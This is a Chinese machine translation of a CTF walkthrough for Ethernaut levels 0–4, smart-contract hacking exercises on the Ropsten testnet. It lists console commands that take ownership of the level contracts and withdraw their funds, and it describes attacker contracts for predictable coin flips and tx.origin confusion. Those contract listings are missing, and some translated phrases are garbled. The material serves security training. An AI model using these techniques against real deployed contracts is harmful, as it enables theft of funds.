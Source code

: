 # 区块链——黑掉与以太 CTF 的智能合约(上)

> 原文：<https://infosecwriteups.com/blockchain-hacking-smart-contract-with-ethernaut-ctf-part-1-cb439d6c34fe?source=collection_archive---------0----------------------->

![](img/dfec740495708892a603ba902b3916f9.png)

近年来，区块链及其应用已经成为未来的技术趋势。应用区块链，我们可以解决很多当前技术无法解决的问题，其中最突出的是没有交易中介，不再需要信任第三方。这使得事情变得更简单、更方便、更透明、更值得信赖。

然而，区块链不仅充满优势，而且它仍然是一项非常“新”的技术，需要更多的时间来完成。可以提到一些基本的缺点，例如交易确认速度慢，小额交易的成本高。另一件事是用户体验——普通用户仍然没有准备好区块链的概念，对这项技术的信任仍然需要大量的证明。

有一样东西被认为是完美的“关键”:安全。对于任何产品，无论大小，一次安全事故都可能导致系统崩溃。区块链也是，它并不完美，存在隐藏的安全缺陷，无论是在区块链架构中，还是在这个平台上应用程序的代码中。

在本文中，我们将通过 Zeppelin 的 CTF 游戏来了解以太坊平台上智能合约的一些安全缺陷，Zeppelin 是当今在构建智能合约解决方案方面非常著名的公司。这个 CTF 叫做 ether naut——主要内容是黑客智能合约。

可以在这里加入玩:[https://ether naut . zeppelin . solutions](https://ethernaut.zeppelin.solutions)

一些建议:

*   最好有区块链和智能合约方面的知识
*   如果有 Solidity 和 Web3js 的知识就更好了
*   如果你知道如何使用混合 IDE 或松露就更好了

# 齐柏林飞船

CTF 将包括所有 12 首曲目，在 Ropsten 网络上播放。您需要准备一些东西(这些设置很简单，所以您可以自己搜索和安装):

*   安装元掩码
*   在 Ropsten Testnet 上创建一个帐户，然后去[https://faucet.metamask.io/](https://faucet.metamask.io/)拿些乙醚。
*   打开 Chrome 控制台
*   打开混音 IDE[https://remix.ethereum.org](https://remix.ethereum.org)

在每篇文章中，我们会得到一个实例，实例地址在开始时会返回到控制台上。我们将通过控制台(easy post)或 Remix IDE(稍微有点困难&需要代码)与契约实例进行交互

# 0.你好，以太人

这是一个快速教程，很简单，主要是让我们测试内置函数。好了，我们走吧！

**解决方案** 我们不知道该怎么做但是第 9 步有提示。我们将从 Chrome 控制台上的`contract.info()`开始

```
await contract.info()
"You will find what you need in info1()."
```

发出清除指令，执行功能`info1`

```
await contract.info1()
"Try info2(), but with "hello" as a parameter."
```

继续`info2`

```
await contract.info2("hello")
"The property infoNum holds the number of the next info method to call."await contract.infoNum()
t {s: 1, e: 1, c: Array(1)}
c: [42]
e: 1
s: 1
__proto__: Object
```

这是一个很大的数字，我们不需要知道它的用途，但是我们知道下一个被调用的函数将是`info42`。

```
await contract.info42()
"theMethodName is the name of the next method."await contract.theMethodName()
"The method name is method7123949."await contract.method7123949()
"If you know the password, submit it to authenticate()."
```

也就是说，要完成这篇文章，我们需要提交带有参数`password`的`authenticate`函数。调用`password`函数获取密码。

```
await contract.password()
"ethernaut0"contract.authenticate("ethernaut0")
```

# 1.撤退

目标:

*   占用所有者
*   从合同中提取所有的钱

后备解决方案

*   在这节课中，我们将学习`fallback`函数。这是智能合约中的一个特殊函数，它没有函数名，在以下情况下使用:合约收到以太网，或有人调用合约中没有的函数或参数不正确。
*   这里有个小技巧:fallback 不是回退函数(即使函数的名字是 Fallback)，但是`function() payable public`是回退函数。从那里我们有了下面的方法:首先调用值小于 0.001 的函数 contribute()来成为贡献者

```
await contract.contribute({value:toWei(0.0001)})
```

检查你是否已经成为一个贡献者。如果结果> 0，那么你就成了贡献者

```
await contract.getContribution().then(x => x.toNumber())
```

然后发送以太到合同激活回退，然后我们将成为所有者

```
contract.send(1)
```

检查所有者

```
await contract.owner()
```

然后取出所有的钱

```
contract.withdraw()
```

# 2.余波

**目标**

*   占用所有者

**解决方案**

只需运行 **Fal1out** 函数，请注意，该契约故意将字母 l 拼错为数字，因此它不是构造函数，而只是一个常规函数，其任务是授权所有者。

```
contract.Fal1out()
```

检查它是否已成为所有者

```
await contract.owner()
```

提交并完成！

# 3.抛硬币

这是一个抛硬币的问题，我们的任务是猜脸或连续 10 次面朝上。

**解答** 首先断言，在红黑相间的情况下，连续猜对 10 次几乎是不可能的。
认识到函数 flip()有面朝下的计算然后提交结果，无法知道计算结果是什么来干扰提交过程。然而，这表明我们可以编写另一个契约，将该函数分成两半，一个函数计算，一个函数提交结果。
该编码了，我们会用 Remix IDE 代替 Chrome 控制台。我们将如下编写另一个契约攻击，记住或者用你的实例的地址替换目标变量:

编译此合同并在 Remix 上手动运行该功能翻转 10 次，记住将气限和气价设置得稍高一些，以避免断气并更快地确认交易。

在 chrome 控制台上，仔细检查猜对的次数，10 次就可以了

```
await contract.consecutiveWins().then(x => x.toNumber())
```

# 4.电话

任务:获得所有权

**解决方案**

*   你要明白 tx.origin 不同于 msg.sender。
*   如果从契约 A 调用函数，在调用契约 B 的函数的函数中，那么 tx.origin 是你的地址，msg.sender 是契约 A 的地址。
*   坏人可以用这个来攻击一个契约，用另一个契约来攻击。
*   在本文中，我们将编写另一个契约攻击，如下所示:

编译此合同并在 Remix 上运行 claimOwnership，所有者将属于您。
在 chrome 控制台上，再次检查合同所有者

```
await contract.owner()
```

提交&全部完成！

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)